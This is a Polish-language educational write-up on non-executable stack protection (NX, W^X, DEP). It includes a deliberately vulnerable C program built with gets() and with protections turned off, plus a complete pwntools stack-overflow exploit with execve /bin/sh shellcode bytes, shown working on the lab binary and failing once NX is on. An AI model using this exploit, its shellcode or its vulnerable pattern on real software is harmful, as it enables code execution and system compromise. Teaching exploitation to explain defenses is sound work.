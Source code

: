 # 1.Executable space protection

### 1.1 Różne sposoby radzenia sobie z obszarami pamięci, do którym można pisać i które można wykonywać

Dość ważny aspektem bezpieczeństwa jest rozdzielanie uprawnień obszarom pamięci. Pamięć oznaczona jednocześnie jako W (write) i X (execute) stwarza realne zagrożenie, bo pozwala na wykonanie dowolnego kodu przez atakującego.

Problem rozwiązywany jest zarówno sprzętowo, jak i w oprogramowaniu.

Ważna jest polityka (W^X) - mówiąca, że dana strona pamięci może być tylko i wyłącznie albo wykonywalna, albo można do niej pisać. Polityka ta została wprowadzona w OpenBSD 3.3 w 2003 roku. Polityka jest dość dobrą obroną przed atakami buffer overflow.

Odpowiedzią Microsoftu było DEP (Data Execution Preventon) wprowadzone w Windows XP zawierające szereg zabezpieczeń - między innymi obsługę `NX-bit` oraz póżniej ASLR.

Obecnie sprzętowym sposobem realizacji jest tak zwany `NX-bit` odpowiadający właśnie za wykonywalność pamięci. Z tego właśnie korzystać jądro Linuxa, jeżeli procesor obsługuje tą funkcje.

W innym przypadku możliwa jest również emulacja tej funkcjonalności (przykład Exec Shield i PaX). Emulacja jest jednak dość kosztowna.

Na Linuxie do ręcznego ustawienia uprawnień obszaru służy syscall `mprotect()`. Wywoływany z odpowiednimi flagami oraz adresami pamięci.

W współczesnym świecie dobre rodzielanie uprawnień obszarom pamięci jest dość znane i implementowane jako domyślne funkcje w najczęstszych przypadkach. Takim przypadkiem jest niewykonywalność stosu wywołań, który postaram się zeksploitować w następnych punktach.

### 1.2 Opis

`gcc` defaultowo włącza non-executable stack - można go wyłączyć flaga `-z execstack`.

Tak samo zachowuje się `clang`. 

Jest to argument przekazywany do linkera, który mapuje proces na przestrzeń adresów. Wtedy też przestrzeń przeznaczona na stos jest oznaczana jako `RWX`.


Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stosu, dlatego też opcja może zostać włączona. Wykonywalny stos był niegdyś prawie, że dodatkową funkcja.

Jest to związane z tym jak kompilator `gcc` zachowowywał się w przypadku `nested function`. Kompilator wtedy odkłada na stosie tak zwaną trampolinę - czyli kod, który musi być wykonywalny na stosie. Obecne problem rozwiązywany jest bez wykonywalnego stosu za pomocą deskryptorów.

Wykonywalny stack jest pokonywany za pomocą oznaczenia pamięci stacku jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.

Wyłączenie wykonywalnego stosu jest dość podstawową metodą obrony przez eksploitacją binarną aplikacji i następne metody uwzględniają tą metodę jako uwzględnioną.

Oznaczenie pamięci jako niewykonywalna obecnie najcześciej odbywa się za pomocą ustawienia flagi `NX` w tablicy strony.

Implementacje na różnych systemach nie różnia się zbytnio.

### 1.3 Proof of concept
Pierwszym omówionym exploitem i obroną przed nim bedzie wykonywalny stack.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić, aby przepełnić bufor.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

Schemat exploitacji jest następujący:

* ustalić miejsce w pamięci, w którym nadpisujemy adres powrotu
* ustalić miejsce w pamięci, w którym znajduje się bufor
* nadpisać adres powrotu adresem bufora, w którym znajduje się nasz kod.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. 

W debuggerze ustaliłem, że miejsce w pamięci do którego bedziemy pisać każdą następna wiadomość to rejestr `eip` przetrzymujący adres powrotu funkcji.

Następnie za pomocą gdb ustaliłem, w którym miejscu można nadpisać adres powrotu oraz adres, w którym zaczyna się bufor.

Adres ten jest stały, bo nie używamy ani PIE ani ASLR.

Dopisując do naszej wiadomości adres bufora powiększony o offset generowany przez poprzednie wiadomości uda nam się skierować wykonywanie programu na złośliwy kod, który jesteśmy w stanie wstrzyknąć za adresem.

```python
name += "\x20\xd2\xff\xff"
```


W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve i odpowiednimi parametrami. Shellcode ten zaczerpnałem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

Jest to shellcode w assemblerze ładujący odpowiednie argumenty do odpowiednich rejestrów i wywołujący funkcje execve syscallem z argumentami wskazującymi na `bin/sh`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Cały exploit wygląda następująco:

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15 # inject aaaas till eip
name += "\x20\xd2\xff\xff" # inject address of shellcode to eip
name += "\x31\xc0\x50\x68\x2f\x2f\x73"+"\x68\x68\x2f\x62\x69\x6e\x89"+"\xe3\x89\xc1\x89\xc2\xb0\x0b"+"\xcd\x80\x31\xc0\x40\xcd\x80" #shellcode to spawn shell

p.sendline(name)

p.interactive()

```


Exploit działa na programie skompilowanym z wykonywalnym stackiem. Widzimy tu interaktywny shell.

![img.png](img.png)

Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stacku nie działa. Program zakończył działanie sygnałem SIGSEGV.

![img_1.png](img_1.png)


### 1.4 Wnioski

Kontrolowanie tego czy dane miejsce w pamięci może wykonywać kod jest ważna i pozwala zapobiegać najprostszym atakom typu buffer overflow. Jednak nie jest to remedium na wszystkie ataki.

Ataki typu ROP lub RET2LIBC, które bedą prezentowane w dalszej częsci projektu mogą być wykonane z `nonexec` stosem.

